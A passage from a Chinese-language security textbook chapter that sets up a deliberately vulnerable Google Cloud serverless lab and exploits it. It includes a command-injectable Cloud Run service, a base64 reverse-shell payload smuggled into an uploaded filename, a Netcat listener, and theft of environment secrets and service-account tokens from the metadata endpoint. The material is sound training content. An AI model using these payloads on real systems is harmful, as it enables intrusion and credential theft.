gsutil mb -p $PROJECT_ID -c STANDARD -l $REGION gs://$BUCKET_NAME/
```

指定将作为攻击者账户的攻击者账户的电子邮件地址：

```
USER2="[EMAIL ADDRESS OF ACCOUNT # 2]"
```

在运行命令之前，请确保将 `[EMAIL ADDRESS OF ACCOUNT # 2]` 替换为你控制的攻击者 Google Cloud 账户的有效电子邮件地址。

为存储桶授予攻击者账户 `storage.objectAdmin` 角色：

```
gsutil iam ch user:$USER2:roles/storage.objectAdmin gs://$BUCKET_NAME
```

检索存储桶的 IAM 策略：

```
gsutil iam get gs://$BUCKET_NAME
```

这会返回以下内容：

```
{
  "bindings": [
    ...
    {
      "members": [
        "user:[EMAIL ADDRESS OF USER #2]"
      ],
      "role": "roles/storage.objectAdmin"
    }
  ],
  "etag": "..."
}
```

##### 5. 让我们创建并配置攻击者账户可以下载生成的 PDF 文件的指定输出存储桶

检索并检查当前 Google Cloud 项目 ID：

```
PROJECT_ID=$(gcloud config get-value project)
[[ -z "$PROJECT_ID" ]] && echo "Error: PROJECT_ID is not set."
```

如果未收到错误，你的 `PROJECT_ID` 已在环境中正确配置。否则，在继续下一步之前，请运行 `gcloud auth login` 并通过 `gcloud config set project [PROJECT_ID]` 设置活动项目。

将环境变量 `INPUT_BUCKET`、`OUTPUT_BUCKET` 和 `ANOTHER_BUCKET` 加载到当前 shell 会话中：

```
source bucket-vars.sh
```

创建 Cloud Storage 存储桶：

```
BUCKET_NAME="$OUTPUT_BUCKET"

gsutil mb -p $PROJECT_ID -c STANDARD -l $REGION gs://$BUCKET_NAME/
```

将攻击者账户的电子邮件地址存储在变量中：

```
USER2="[EMAIL ADDRESS OF ACCOUNT # 2]"
```

在运行命令之前，请确保将 `[EMAIL ADDRESS OF ACCOUNT # 2]` 替换为你控制的攻击者 Google Cloud 账户的有效电子邮件地址。如果 `USER2` 已设置为有效电子邮件，可以跳过此步骤。

##### 6. 为攻击者账户授予列出和下载指定输出存储桶中对象的权限

```
gsutil iam ch user:$USER2:roles/storage.objectViewer gs://$BUCKET_NAME
gsutil iam ch user:$USER2:roles/storage.legacyBucketReader gs://$BUCKET_NAME
```

检索指定输出存储桶的当前 IAM 策略：

```
gsutil iam get gs://$BUCKET_NAME
```

这会产生以下输出响应：

```
{
  "bindings": [
    ...
    {
      "members": [
        "projectViewer:...",
        "user:[EMAIL ADDRESS OF USER #2]"
      ],
      "role": "roles/storage.legacyBucketReader"
    },
    {
      "members": [
        "user:[EMAIL ADDRESS OF USER #2]"
      ],
      "role": "roles/storage.objectViewer"
    }
  ],
  "etag": "..."
}
```

此时，攻击者账户已成功被授予 `storage.legacyBucketReader` 和 `storage.objectViewer` 角色。凭借这些权限，攻击者账户可以列出并从设计的输出存储桶中下载对象。

如果你想知道为什么只有攻击者账户可以访问指定的输入和输出存储桶，这是为了确保你可以在实验室环境中安全地模拟攻击，而不会有来自外部恶意行为者试图入侵你的 Google Cloud 账户的任何风险。^7 考虑到这一点，让我们继续设置易受攻击的 Cloud Run 服务。

### 部署易受攻击的 Cloud Run 服务

让我们快速回顾一下你迄今为止所取得的成就。在此阶段，你的无服务器实验室现在包含一个具有两个版本的 Parameter Manager 参数，以及充当 Cloud Run 服务输入/输出存储的 Cloud Storage 存储桶，其中保存和检索 HTML 和 PDF 文件。

在本节中，你将配置并部署一个设计上易受攻击的 Cloud Run 服务，该服务将上传的 HTML 文件转换为 PDF 文档。作为设置的一部分，你还将为 Cloud Run 资源创建一个过于宽松的服务账户，其权限超过了服务实际需求，如 Figure 9-3 所示。



在动手操作之前，让我们讨论几个关键术语：

Cloud Run service

: 

在 Cloud Run 平台上运行的应用程序的可部署单元。该服务由容器镜像及其配置组成，并且可以根据传入请求自动扩展，而无需你管理基础设施。

Container

: 

一个轻量级、独立的可执行包，其中包含应用程序及其所有依赖项，确保它在不同环境中一致运行。例如，你可以将 Python Web 应用程序及其所需库打包到容器中并部署到 Cloud Run，在那里它将与在本地机器上运行时完全相同。

Container image

: 

包含运行容器所需的一切的静态快照，包括应用程序代码、库和运行时。镜像用于实例化容器。

Container image tag

: 

标识容器镜像特定版本的标签，使部署或回滚应用程序的特定版本变得容易。

Docker

: 

用于构建、发布和运行容器的平台和工具集。你可以使用 Docker 将应用程序及其依赖项打包到便携式容器镜像中。这些 Docker 镜像可以直接部署到 Cloud Run 服务，使你的容器化应用程序能够在完全托管的无服务器环境中运行。

Artifact Registry
:


一个完全托管的服务，用于在 Google Cloud 中存储、管理和保护容器镜像和其他制品。通过将容器镜像存储在 Artifact Registry 中，您可以对 Cloud Run 服务用于部署的镜像进行版本控制和管理。

#### Note

本节假定您正在使用您的 Serverless Lab 账户，该账户托管易受攻击的按设计构建的无服务器实验室环境。

让我们逐步介绍设置 Cloud Run 服务及其关联服务账户的步骤：

1. 运行以下命令克隆 `cloud-run-html-to-pdf` 仓库：
```
cd ~

USERNAME=learning-serverless-security
REPO=cloud-run-html-to-pdf

git clone https://github.com/$USERNAME/$REPO.git

cd cloud-run-html-to-pdf
```

2. 查看 `cloud-run-html-to-pdf` 中 `main.py` 的源代码：
```
cat main.py
```
运行此命令会显示 `main.py` 中的应用程序源代码，类似于以下内容：
```
import os
import subprocess
from flask import Flask, request

...

@app.route("/", methods=["POST"])
def handle_gcs_event():
    event = request.get_json()
    print(event)

    ...

    print("Generate PDF using wkhtmltopdf")
    try:
        subprocess.run(f"wkhtmltopdf {local_input_path} ...", shell=True)
        print(f"Generated PDF at {local_output_path}")
    except subprocess.CalledProcessError as e:
        print(f"wkhtmltopdf error: {e}")
        return "PDF generation failed", 500

    ...

    return f"Successfully processed {filename}", 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```
此应用程序通过 `gsutil` 下载上传的文件作为 Cloud Storage 事件处理程序，将其使用 `wkhtmltopdf` 转换为 PDF，并将生成的 PDF 上传到指定的输出存储桶。然而，代码使用事件中来自不可信文件名的值作为 shell 命令执行 `wkhtmltopdf`，引入了代码注入漏洞，可能允许任意命令执行。

#### Note

请随意在 [`cloud-run-html-to-pdf` GitHub repo](https://oreil.ly/tOzLs) 中查看应用程序的实现。

3. 删除本地 Git 仓库元数据以将项目与版本控制分离：
```
rm -rf .git
```

4. 确保已启用无服务器实验室所需的 Google Cloud 服务：
```
gcloud services enable run.googleapis.com \
    storage.googleapis.com \
    eventarc.googleapis.com \
    cloudbuild.googleapis.com
```

5. 为您的项目 ID、区域和服务账户电子邮件初始化变量：
```
PROJECT_ID=$(gcloud config get-value project)
REGION="us-east1"
REPO_NAME="learning-serverless-security"
SERVICE_NAME="html-to-pdf-service"
SA_NAME="html-to-pdf"
SA_EMAIL="$SA_NAME@$PROJECT_ID.iam.gserviceaccount.com"
```

6. 创建一个名为 `html-to-pdf-service` 的新服务账户：
```
gcloud iam service-accounts create $SA_NAME \
  --display-name="Cloud Run HTML to PDF Service Account"
```

7. 授予服务账户 `html-to-pdf-service` 对项目的所有者权限：
```
gcloud projects add-iam-policy-binding $PROJECT_ID \
  --member="serviceAccount:$SA_EMAIL" \
  --role="roles/owner"
```

#### Note

如果您遇到 `INVALID_ARGUMENT: Service account html-to-pdf@…​.iam.gserviceaccount.com does not exist`，请等待几分钟让服务账户传播，然后重试命令。

8. 创建一个 Artifact Registry 仓库：
```
gcloud artifacts repositories create $REPO_NAME \
  --repository-format=docker \
  --location=$REGION \
  --project=$PROJECT_ID \
  --description="Learning Serverless Security Resources Repository"
```

9. 构建并将您的 Cloud Run 服务容器镜像推送到 Google Artifact Registry：
```
TAG="$REGION-docker.pkg.dev/$PROJECT_ID/$REPO_NAME/$SERVICE_NAME"

gcloud builds submit --tag $TAG
```
或者，您可以跳过本地构建，通过从 Docker Hub 拉取现有镜像并将其推送到 Artifact Registry：
```
TAG="$REGION-docker.pkg.dev/$PROJECT_ID/$REPO_NAME/$SERVICE_NAME"

docker pull learningserverlesssecurity/cloud-run-html-to-pdf:1

docker tag learningserverlesssecurity/cloud-run-html-to-pdf:1 $TAG

docker push $TAG
```

#### Caution

此容器镜像按设计存在漏洞，旨在用于在实验室环境中演示无服务器安全问题。请勿将其用于生产工作负载。

10. 在部署服务之前验证 `OUTPUT_BUCKET` 环境变量是否正确设置：
```
source ~/bucket-vars.sh

[[ -z "$OUTPUT_BUCKET" ]] && echo "Error: OUTPUT_BUCKET is not set."
```

11. 部署 Cloud Run 服务：
```
ENV_VARS="OUTPUT_BUCKET=$OUTPUT_BUCKET,SECRET=PASSWORD123"

gcloud run deploy $SERVICE_NAME \
  --image $TAG \
  --region $REGION \
  --no-allow-unauthenticated \
  --service-account=$SA_EMAIL \
  --set-env-vars $ENV_VARS \
  --max-instances=1 \
  --concurrency=1 \
  --timeout=1200
```
下表列出了所使用的每个配置选项：

| Flag/option | Description | Value |
| --- | --- | --- |
| `--image` | 指定用于 Cloud Run 服务部署的容器镜像 | 您在之前步骤中推送到 Artifact Registry 的容器镜像 |
| `--region` | 设置服务将部署的 Google Cloud 区域 | `us-east1` |
| `--no-allow-unauthenticated` | 确保只有经过身份验证的请求可以访问服务 | 配置可防止服务被公共/未经身份验证的 HTTP 请求访问 |
| `--service-account` | 分配服务将用于访问其他资源的服务账户 | `html-to-pdf@…​.⁠iam​.gserviceaccount​.com` |
| `--set-env-vars` | 为服务设置环境变量 | `OUTPUT_BUCKET` 和 `SECRET` |
| `--max-instances` | 限制服务的容器实例最大数量 | `1` |
| `--concurrency` | 设置单个容器实例可以并发处理的请求数 | `1` |
| `--timeout` | 定义在请求被终止之前的最大请求持续时间 | 20 分钟 |

12. 检查已部署的 Cloud Run 服务的详细信息，包括其配置和状态：
```
gcloud run services describe $SERVICE_NAME \
  --region $REGION
```
返回完整的配置详细信息，类似于以下内容：
```
✔ Service html-to-pdf-service in region us-east1

URL:     https://html-to-pdf-service-....us-east1.run.app
Ingress: all
Traffic:
  100% LATEST (currently html-to-pdf-service-...)

Scaling: Auto (Min: 0)

Last updated on 2025-00-00T00:00:00.000000Z by ...:
  Revision html-to-pdf-service-...
  Container None
    Image:           .../html-to-pdf-service
    Port:            8080
    Memory:          512Mi
    CPU:             1000m
    Env vars:
      OUTPUT_BUCKET  ss-output-bucket-...
      SECRET         PASSWORD123
    Startup Probe:
      TCP every 240s
      Port:          8080
      Initial delay: 0s
      Timeout:       240s
      Failure threshold: 1
      Type:          Default
  Service account:   html-to-pdf@....iam.gserviceaccount.com
  Concurrency:       1
  Max instances:     1
  Timeout:           1200s
```


在这里，你可以检查服务 URL、服务账号电子邮件地址、容器镜像、超时时间以及其他定义你的 Cloud Run 服务运行方式的部署细节。

在易受攻击的按设计构建的 Cloud Run 服务已启动并运行后，让我们继续完成无服务器处理工作流。

#### 完成易受攻击的事件驱动文件上传服务

部署 Cloud Run 服务后，最后一步是将输入存储桶配置为事件触发器，当有新对象上传或更新时调用该服务。

在我们深入动手操作部分之前，让我们先定义几个关键术语：

**Eventarc**  
:  
Google Cloud 的一项服务，允许你将来自各种来源的事件路由到 Cloud Run、Cloud Functions 或 Workflows 等无服务器目标。它通过事件流连接各种服务，从而实现事件驱动架构。

**Eventarc trigger**  
:  
定义事件被捕获并传递到目标服务的条件。触发器指定事件源、事件类型、过滤器以及将接收事件的目标服务。

**Pub/Sub**  
:  
Google Cloud 中的消息传递服务，允许独立应用程序之间进行异步通信。发布者向主题发送消息，订阅者从该主题接收消息。

**Pub/Sub topic**  
:  
发布者向其发送消息的命名资源。主题充当消息通道，将消息生产者与消费者解耦。

**Pub/Sub subscription**  
:  
定义主题中的消息如何传递给订阅者。订阅可以是推送 [交付到端点] 或拉取 [由订阅者检索]，并且允许多个订阅者独立消费相同的消息。

#### Note

本节假定你正在使用你的 Serverless Lab 账号，该账号托管易受攻击的按设计构建的无服务器实验室环境。

让我们逐步完成设置：

1. 授予存储服务账号向 Pub/Sub 发布消息的权限：

```
PROJECT_NUMBER=$(gcloud projects describe $PROJECT_ID \
  --format="value(projectNumber)")

COM="gs-project-accounts.iam.gserviceaccount.com"
STORAGE_SA="service-${PROJECT_NUMBER}@$COM"

gcloud projects add-iam-policy-binding $PROJECT_ID \
  --member="serviceAccount:${STORAGE_SA}" \
  --role="roles/pubsub.publisher"
```

如果在运行这些命令时遇到错误，可能是因为 Cloud Storage 服务账号尚未完全创建或传播。^9 等待几分钟让服务账号激活后再重试。你也可以尝试通过 `gcloud services disable storage.googleapis​.com --project=$PROJECT_ID --force` 后跟 `gcloud services enable storage.googleapis.com --project=$PROJECT_ID` 来解决此问题。另一种解决方法是导航到 Google Cloud 控制台中的 Cloud Storage 服务，打开设置页面，并在项目访问选项卡上滚动到 Cloud Storage 服务账号部分以找到 Cloud Storage 服务账号电子邮件。完成这些步骤后，重新运行 `gcloud projects add-iam-policy-binding` 命令并确认错误已解决。

2. 创建一个 Eventarc 触发器，每当在指定的 Cloud Storage 存储桶中上传新对象 [或覆盖现有文件后] 时将事件发送到你的 Cloud Run 服务：

```
source ~/bucket-vars.sh

gcloud eventarc triggers create gcs-trigger \
  --location=$REGION \
  --destination-run-service=$SERVICE_NAME \
  --destination-run-region=$REGION \
  --event-filters="type=google.cloud.storage.object.v1.finalized" \
  --event-filters="bucket=$INPUT_BUCKET" \
  --service-account=$SA_EMAIL
```

这会输出以下日志：^10

```
Creating trigger [gcs-trigger] in project [...], location [us-east1]...done.
WARNING: It may take up to 2 minutes for the new trigger to become active.
```

#### Caution

尽管本章示例对 Cloud Run 服务和 Eventarc 触发器使用相同的服务账号，但在实践中，建议为每个资源使用单独的服务账号，并仅授予其所需的最小权限。

3. 列出当前项目中所有现有的 Eventarc 触发器：

```
gcloud eventarc triggers list
```

这会返回你刚刚创建的触发器：

```
NAME: gcs-trigger
TYPE: google.cloud.storage.object.v1.finalized
DESTINATION: Cloud Run service: html-to-pdf-service
ACTIVE: Yes
LOCATION: us-east1
```

4. 检查 Eventarc 触发器的配置详情：

```
TRIGGER_NAME=$(gcloud eventarc triggers list \
  --limit=1 \
  --format="value(name)")

gcloud eventarc triggers describe $TRIGGER_NAME \
  --location $REGION
```

这会产生以下输出：

```
createTime: '...'
destination:
  cloudRun:
    region: us-east1
    service: html-to-pdf-service
...
```

5. 检查 Pub/Sub 主题的配置详情：

```
PUBSUB_TOPIC=$(gcloud eventarc triggers \
  describe $TRIGGER_NAME \
  --location $REGION \
  --format json | \
  jq -r '.transport.pubsub.topic')

gcloud pubsub topics describe "$PUBSUB_TOPIC"
```

这会返回 Pub/Sub 主题的完整配置详情，类似于以下内容：

```
labels:
  goog-drz-eventarc-location: us-east1
  goog-drz-eventarc-uuid: ...
  goog-eventarc: ''
...
```

6. 检查 Pub/Sub 订阅的配置详情：

```
PUBSUB_SUB=$(gcloud eventarc triggers \
  describe $TRIGGER_NAME \
  --location $REGION \
  --format json | \
  jq -r '.transport.pubsub.subscription')

gcloud pubsub subscriptions describe "$PUBSUB_SUB"
```

这应返回 Pub/Sub 订阅的完整配置详情——包括其确认截止时间 [以秒为单位]、过期策略、消息保留时长、推送配置、重试策略、当前状态以及关联的主题：

```
ackDeadlineSeconds: 10
expirationPolicy: {}
labels:
  goog-drz-eventarc-location: us-east1
  goog-drz-eventarc-uuid: ...
  goog-eventarc: ''
messageRetentionDuration: 86400s
...
```

7. 更新 Pub/Sub 订阅以调整消息确认截止时间 [以秒为单位]、消息在删除前保留的时间以及重试延迟设置：

```
gcloud pubsub subscriptions update "$PUBSUB_SUB" \
  --ack-deadline=300 \
  --message-retention-duration=600s \
  --max-retry-delay=600s \
  --min-retry-delay=600s
```

8. 验证 Pub/Sub 订阅配置设置是否已成功更新：

```
gcloud pubsub subscriptions describe "$PUBSUB_SUB"
```

你应该会看到确认更新参数的输出响应：

```
ackDeadlineSeconds: 300
...
messageRetentionDuration: 600s
...
retryPolicy:
  maximumBackoff: 600s
  minimumBackoff: 600s
...
```

恭喜！你已完成易受攻击的按设计构建的无服务器实验室环境的设置。此时，你拥有一个无服务器的、事件驱动的 Cloud Run 服务，它会在指定的输入存储桶中上传文件时自动启动以处理上传的文件，并在处理完上传事件后缩减至零。在下一节中，你将通过向指定的输入 Cloud Storage 存储桶上传 HTML 文件来测试此设置。

#### 验证端到端事件驱动处理


在我们搭建好易受攻击的无服务器实验室环境后，让我们验证事件驱动的无服务器工作流是否按预期工作。在本节中，你将上传一个示例 HTML 文件到配置了 Eventarc 触发器的指定输入 Cloud Storage 存储桶中。这将调用一个 Cloud Run 服务，该服务会将 HTML 文件转换为 PDF 并将生成的文档上传到指定的输出存储桶，如 图 9-4 所示。



在本节结束时，你应该在指定的输出存储桶中看到一个 PDF 文件，这证实了由 Eventarc 事件触发并由 Cloud Run 服务处理的 HTML 到 PDF 转换工作流运行正常。

考虑到这一点，让我们继续将示例 HTML 文件上传到指定的输入存储桶：

1. 在 Cloud Shell 终端（`$` 符号之后），导航到 `cloud-run-html-to-pdf` 目录并查看要转换为 PDF 的示例 HTML 文件：

```
cd ~/cloud-run-html-to-pdf

FILENAME="report.html"
less -N $FILENAME
```

按 Q 退出文件预览并继续执行下一个命令。

将 `report.html` 文件上传到指定的输入 Cloud Storage 存储桶：

```
gsutil cp "$FILENAME" gs://$INPUT_BUCKET/
```

从 Cloud Logging 获取 Cloud Run 服务的最近日志条目：

```
EXPR_A="resource.type=cloud_run_revision"
EXPR_B="resource.labels.service_name=$SERVICE_NAME"

EXPRESSION="$EXPR_A AND $EXPR_B"

gcloud logging read "$EXPRESSION" \
  --limit 1000 \
  --format="value(textPayload)"
```

这会产生以下日志输出：

```
...

... - - [00/Aug/2025 00:00:00] "POST / HTTP/1.1" 200 -
Operation completed over 1 objects/21.0 KiB.
/ [1 files][ 21.0 KiB/ 21.0 KiB]
/ [0 files][    0.0 B/ 21.0 KiB]
Copying file:///tmp/report.html.pdf [Content-Type=application/pdf]...
Done
[>                                                           ]
Printing pages (2/2)
[============================================================] 100%
[==============================>                             ] 50%
[>                                                           ] 0%
Loading page (1/2)
QStandardPaths: XDG_RUNTIME_DIR not set, defaulting to '/tmp/runtime-root'
Operation completed over 1 objects/2.3 KiB.
/ [1 files][  2.3 KiB/  2.3 KiB]
/ [0 files][    0.0 B/  2.3 KiB]
Copying gs://ss-input-bucket-.../report.html...

...
```

由此，你可以得出结论，PDF 已成功渲染（`report.html.pdf`）并上传到指定的输出存储桶。^(11)

2. 在顶部搜索栏中搜索 `buckets` 并从结果列表中选择 Buckets。

3. 在 Cloud Storage 存储桶列表中，单击名称以 `ss-output-bucket` 开头的存储桶以打开它并查看其内容。

4. 找到名为 `report.html.pdf` 的文件，选中它旁边的复选框，然后单击 Download。

5. 下载完成后，在本地计算机上打开 PDF 文件以检查渲染输出是否与 图 9-5 匹配。



#### Tip

你也可以从攻击者账户的 Cloud Shell 终端将 HTML 文件上传到指定的输入存储桶，以确认 Cloud Storage 权限配置正确。

现在你已经验证了无服务器实验室环境已正确配置并正常工作，我们可以继续探索恶意文件上传如何被用来利用运行中的 Cloud Run 服务中的代码注入漏洞。

### 通过恶意文件上传利用 Cloud Run 服务

在无服务器实验室环境准备就绪后，你将现在探索攻击者可能采取的利用事件驱动文件处理应用程序并获取敏感用户数据以及其他云资源的途径之一。在本节中，你将在攻击者账户下启动一台 Compute Engine VM，使用 Netcat 在 VM 上设置一个反向 shell 监听器，并通过恶意文件上传与受损的 Cloud Run 服务建立反向 shell 连接（图 9-6）。



通过反向 shell 会话，你将模拟攻击者检查受损 Cloud Run 服务的执行环境；外泄环境变量、服务账户详细信息和项目元数据；并访问无服务器实验室中的其他云资源——包括 Cloud Storage 存储桶、Pub/Sub 主题和 Parameter Store 参数。

在我们深入实践部分之前，让我们先定义几个关键术语：

Reverse shell

: 

从远程主机向攻击者机器发出的外向连接，允许通过 CLI 与远程主机进行交互。

Reverse shell listener

: 

接受传入反向 shell 连接的端点。

Reverse shell session

: 

受损主机与监听器之间的活动连接，通过该连接操作员可以在主机上执行命令并接收其输出。

Metadata endpoint

: 

暴露项目级和实例级元数据的实例本地 HTTP 服务（包括项目属性、服务账户信息和短期访问令牌），以便在 Google Cloud 上运行的工作负载使用。在 Cloud Run 的上下文中，元数据端点为运行中的容器提供其分配的服务账户凭据和环境元数据的访问权限，使服务能够安全地向其他 Google Cloud API 进行身份验证。

在本节结束时，你将意识到无服务器应用程序中的错误配置和代码注入漏洞如何让攻击者利用恶意文件上传来访问同一账户中的其他云资源。让我们继续设置反向 shell 监听器。

#### 设置反向 Shell 监听器

攻击者有各种策略和技术来入侵无服务器环境。这包括设置反向 shell 监听器，使他们能够远程在受损函数或服务的环境中运行命令。尽管无服务器执行时间限制可能会过早终止这些连接，但某些应用程序上的更长超时设置可以使攻击者在执行窗口期间执行命令甚至提升权限。^(12)

#### Note

本节假设你使用攻击者账户来模拟攻击者对托管在无服务器实验室账户中的无服务器实验室环境执行操作。

让我们逐步进行设置和配置反向 shell 监听器的步骤：

1. 在新的浏览器窗口中前往 [Google Cloud console](https://oreil.ly/1vxJH) 并使用攻击者账户登录。建议使用隐私浏览窗口以防止会话冲突并确保你使用正确的 Google 账户登录。

2. 让我们快速设置新的 Google Cloud 账户。通过打开页面顶部的项目选择器并选择“New project”来创建新项目。指定项目名称并单击 Create 以初始化新项目。此项目将用于模拟对托管在无服务器实验室账户中的无服务器实验室环境的攻击。

#### Note

创建新项目后，请确保它已在顶部导航栏中选中。如果尚未选中，请再次打开项目选择器并选择新创建的项目以继续。

3. 单击 Google Cloud 控制台右上角的 Activate Cloud Shell 按钮。如果出现 Authorize Cloud Shell 窗口，请单击 Authorize 以授予必要的权限。

4. 通过运行以下命令确保 `gcloud` 已使用你刚刚创建的项目进行配置：


```
gcloud config get project
```

如果返回的项目 ID 与你创建的项目 ID 不匹配，请按如下方式设置：

```
gcloud config set project [PROJECT_ID]
```

在运行命令之前，将 `[PROJECT_ID]` 替换为你刚刚创建的项目的 ID。你可以在 Google Cloud 控制台顶部的工作区选择器中找到项目 ID。

运行以下命令以启用所需的 Google Cloud 服务：

```
gcloud services enable \
  compute.googleapis.com
```

你应该会收到以下确认消息：

```
Operation "..." finished successfully.
```

##### 5. 设置一个新的 Compute Engine VM 实例，并创建一个允许端口 4444 入站 TCP 流量的防火墙规则：

```
PROJECT_ID=$(gcloud config get-value project)
ZONE="us-central1-a"
REGION="us-central1"
VM_NAME="receiver-vm"
STATIC_IP_NAME="receiver-ip"

gcloud compute addresses create $STATIC_IP_NAME --region=$REGION

gcloud compute instances create $VM_NAME \
  --zone=$ZONE \
  --machine-type=e2-micro \
  --image-family=debian-11 \
  --image-project=debian-cloud \
  --address=$STATIC_IP_NAME \
  --tags=receiver-server \
  --quiet

gcloud compute firewall-rules create allow-netcat-4444 \
  --allow=tcp:4444 \
  --target-tags=receiver-server \
  --direction=INGRESS \
  --source-ranges=0.0.0.0/0 \
  --priority=1000 \
  --quiet
```

#### Caution

请务必在完成本章所有动手练习后清理并删除这些资源。这将帮助你避免产生不必要的费用并最大限度地降低潜在的安全风险。

##### 6. 获取保留的静态 IP 地址值：

```
gcloud compute addresses describe $STATIC_IP_NAME \
  --region=$REGION \
  --format="get(address)"
```

#### Note

请务必复制运行此命令后返回的 IP 地址，因为你将在后续步骤中使用它。你可以暂时将其保存在本地机器的文本编辑器中以便更方便地参考。

##### 7. 通过 SSH 连接到你的 Compute Engine VM 实例：

```
gcloud compute ssh $VM_NAME --zone=$ZONE
```

##### 8. 运行以下命令以安装 Netcat：

```
sudo apt update && sudo apt install -y netcat
```

然后在端口 4444 上启动 Netcat 监听器：

```
nc -lvnp 4444
```

你应该会得到以下输出，表明 Netcat 现在正在监听传入连接：

```
Listening on 0.0.0.0 4444
```

下表描述了命令中每个配置选项：

| Option || Description |

| --- | --- |

| `-l` (listen mode) || 监听传入连接。 |

| --- | --- |

| `-v` (verbose) || 启用详细日志以用于调试或监控目的。 |

| `-n` (no DNS resolution) || 禁用 DNS 查找。 |

| `-p` (port number) || 配置要监听的本地端口号。 |

至此，你的 Netcat 监听器已设置完成，可以在指定端口 `4444` 上接收传入连接。要随时停止 Netcat 监听器，只需按 Ctrl-C 即可。现在请保持其运行，因为你将在下一节中使用它。

#### 通过恶意文件上传触发反向 Shell

反向 Shell 监听器准备就绪后，你现在将创建一个具有恶意文件名的文件，该文件在上传到指定的输入存储桶时将触发并与易受攻击的 Cloud Run 服务建立反向 Shell 连接。

#### Note

本节假设你使用的是 Attacker 账号，你将使用该账号来模拟攻击者对托管在 Serverless Lab 账号中的实验环境执行操作。

让我们通过恶意文件上传建立反向 Shell 会话：

1. 通过点击 Cloud Shell 工具栏中的 `+` 图标打开一个新的 Cloud Shell 终端标签页。

2. 在继续执行本节中的下一步之前，请确保 `gcloud` 已配置为你刚刚创建的项目，运行以下命令：

```
gcloud config get project
```

3. 在 `INPUT_BUCKET` 变量中存储用于 HTML 到 PDF 上传的现有 Cloud Storage 存储桶名称：

```
INPUT_BUCKET="[REPLACE WITH BUCKET NAME]"
```

#### Tip

存储桶名称以 `ss-input-bucket` 开头，以其创建日期和时间派生的时间戳结尾。

4. 指定 VM 实例的保留外部静态 IP 地址并将其存储在变量中：

```
RECEIVER_IP="[REPLACE WITH STATIC IP ADDRESS]"
```

#### Note

在运行命令之前，请务必将 `[REPLACE WITH STATIC IP ADDRESS]` 替换为 VM 实例的保留静态 IP 地址。

5. 构造反向 Shell 命令以连接到你的 VM 实例的保留外部静态 IP 地址：

```
COMMAND="bash -i >& /dev/tcp/$RECEIVER_IP/4444 0>&1"

echo $COMMAND
```

这将生成类似以下的构造反向 Shell 命令：

```
bash -i >& /dev/tcp/XX.XX.XX.XX/4444 0>&1
```

该命令在执行时会在主机上生成一个交互式 Shell，打开到指定 IP (`$RECEIVER_IP`) 和端口 `4444` 的出站 TCP 连接，并将 Shell 的输入和输出重定向到该连接，从而使攻击者控制的主机能够以交互式 Shell 访问被入侵的资源。

6. 将反向 Shell 命令编码为 Base64 以避免注入过程中特殊字符引起的问题：

```
ENCODED=$(echo "bash -c '$COMMAND'" | base64 -w0)
echo $ENCODED
```

这会产生类似以下的 Base64 编码字符串：^(13)

```
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC9YWC5YWC5YWC5YWC80NDQ0IDA+JjEnCg==
```

7. 构造一个包含 Base64 编码有效载荷的恶意文件名：

```
FILENAME="index.html; echo $ENCODED | base64 -d | bash #.html"
echo $FILENAME
```

这会给出以下输出：

```
index.html; echo  YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC9YWC5YWC5YWC5YWC80NDQ0IDA+JjEnCg== | base64 -d | bash #.html
```

8. 使用上一步构造的文件名创建文件：

```
touch -- "$FILENAME"
```

`--` 告诉 `touch` 命令停止将后续参数解释为选项，即使它们以连字符 (`-`) 开头。当你的文件名包含分号或连字符等特殊字符时，这很有用，这些字符可能会混淆命令或触发意外行为。

9. 将包含恶意有效载荷的构造文件名文件上传到 Cloud Storage 存储桶：

```
gsutil cp -- "$FILENAME" gs://$INPUT_BUCKET/
```

10. 切回正在运行 Netcat 监听器的 Cloud Shell 终端标签页。文件上传后几秒钟，你应该会看到连接已建立：^(14)

```
Listening on 0.0.0.0 4444
Connection received on XX.XX.XX.XX XXXXX
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@localhost:/app#
```

#### Caution

Cloud Run 服务在 20 分钟（1,200 秒）后会超时。如果反向 Shell 会话意外终止，只需按 Ctrl-C，重新启动你的 Netcat 监听器，然后重新上传文件以重新建立连接。

11. 运行以下命令（在 `#` 符号之后）以确认当前用户：

```
whoami
```

这会返回 `root`。

12. 运行以下命令以获取被入侵的 Cloud Run 服务主机操作系统的关键详细信息：

```
uname -a
```

这会产生以下输出：

```
Linux localhost 4.4.0 #1 SMP Sun Jan 10 15:06:54 PST 2016 x86_64 GNU/Linux
```


##### 13. 通过 `pwd`（print working directory）显示当前工作目录：

```
pwd
```

这会返回 `/app`。

##### 14. 列出当前目录的内容：

```
ls
```

这会输出以下内容：

```
main.py
```

##### 15. 运行以下命令检查 `main.py` 文件中的代码：

```
cat main.py
```

这会返回 `main.py` 文件的源代码：

```
import os
import subprocess
from flask import Flask, request

app = Flask(__name__)

OUTPUT_BUCKET = os.getenv("OUTPUT_BUCKET")

...
```

##### 16. 列出在受损 Cloud Run 服务中设置的所有环境变量：

```
env
```

你应该会得到以下内容：

```
PYTHON_SHA256=...
PYTHON_VERSION=3.10.18
K_REVISION=...
SECRET=PASSWORD123
CLOUD_RUN_TIMEOUT_SECONDS=1200
PWD=/app
...
```

通过枚举受损计算服务的环境变量，攻击者可以窃取凭据（例如 `SECRET=PASSWORD123`）和其他配置值。

#### Note

攻击者还会注意到，受损的 Cloud Run 服务具有 20 分钟的超时设置，这由 `CLOUD_RUN_TIMEOUT_SECONDS` 环境变量的值指示。^15

##### 17. 查询元数据端点以检索可用的顶级元数据目录：

```
MD_URL="http://169.254.169.254/computeMetadata/v1"
curl -H "Metadata-Flavor: Google" "$MD_URL/"
```

这会返回以下输出：

```
instance/
oslogin/
project/
universe/
```

你可能需要在反向 shell 会话中运行命令后再次按 Enter 键以显示输出。

##### 18. 查询元数据端点以获取服务账号电子邮件地址：

```
SERVICE_ACCOUNT_EMAIL=$(curl -s -H "Metadata-Flavor: Google" \
    "$MD_URL/instance/service-accounts/default/email")

echo $SERVICE_ACCOUNT_EMAIL
```

你应该会得到与受损 Cloud Run 服务关联的服务账号电子邮件：

```
html-to-pdf@....iam.gserviceaccount.com
```

##### 19. 为与 Cloud Run 服务关联的服务账号检索访问令牌：

```
curl -H "Metadata-Flavor: Google" \
  "$MD_URL/instance/service-accounts/default/token"
```

这会返回以下 JSON 输出：

```
{"access_token":"...","expires_in":...,"token_type":"Bearer"}
```

